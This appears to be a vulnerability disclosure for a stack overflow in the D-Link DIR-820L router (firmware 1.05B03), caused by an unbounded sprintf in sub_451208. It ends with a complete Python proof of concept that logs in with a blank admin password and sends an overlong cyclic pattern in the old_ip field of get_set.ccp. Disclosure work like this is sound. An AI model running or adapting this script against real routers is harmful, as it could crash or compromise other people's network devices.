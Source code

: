 #Vulnerability introduction
A stack overflow vulnerability exists in the sub_451208 function of D-Link DIR-820L 1.05B03.

#Vulnerability analysis
In its callback_ccp_get_set() function, pcVar10 is the ccp_act value passed in

![image](https://github.com/user-attachments/assets/996934d1-fb36-45cb-96de-8fc38da2a6b1)


When ccp_act = set is set, sub_451208 is called
![image](https://github.com/user-attachments/assets/faeca5c1-36be-4c72-914a-b3fe0e144a92)

Within the sub_451208 function, by obtaining a series of parameter values, sprintf will be used to assign values ​​without setting the buffer length, causing overflow.
![image](https://github.com/user-attachments/assets/29bbbab4-4e61-433e-af02-dfb02e632b86)

![image](https://github.com/user-attachments/assets/27903ba6-8d71-45c6-a680-eef36e794a2f)


#POC
![image](https://github.com/user-attachments/assets/4e092493-bc47-447d-808c-dc3c66fed4a7)

![image](https://github.com/user-attachments/assets/2fb5c8fc-1365-45e6-93d9-ba402b71f503)



```python
import requests

login_url = 'http://192.168.0.1/login.ccp'
headers = {
    'Host': '192.168.0.1',
    'Content-Length': '122',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.0.1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': 'http://192.168.0.1/',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Cookie': 'hasLogin=1',
    'Connection': 'close'
}
data = {
    'html_response_page': 'login.asp',
    'login_name': '',
    'login_pass': '',
    'username': 'QWRtaW4A',
    'password': '',
    'graph_id': '',
    'alert_id': '',
    'log_pass': '',
    'graph_code': ''
}
response = requests.post(login_url, headers=headers, data=data)
print(response.text)


url = 'http://192.168.0.1/get_set.ccp'
headers = {
    'Host': '192.168.0.1',
    'Content-Length': '1064',
    'Accept': 'application/xml, text/xml, */*; q=0.01',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://192.168.0.1',
    'Referer': 'http://192.168.0.1/lan.asp',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Cookie': 'hasLogin=1',
    'Connection': 'close'
}
data = {
    'ccp_act': 'set',
    'old_ip': 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac',
    'old_mask': '255.255.255.0',
    'new_ip': '192.168.0.1',
    'new_mask': '255.255.255.0',
    'nextPage': 'lan.asp',
}
response = requests.post(url, headers=headers, data=data)
print(response.text)
```
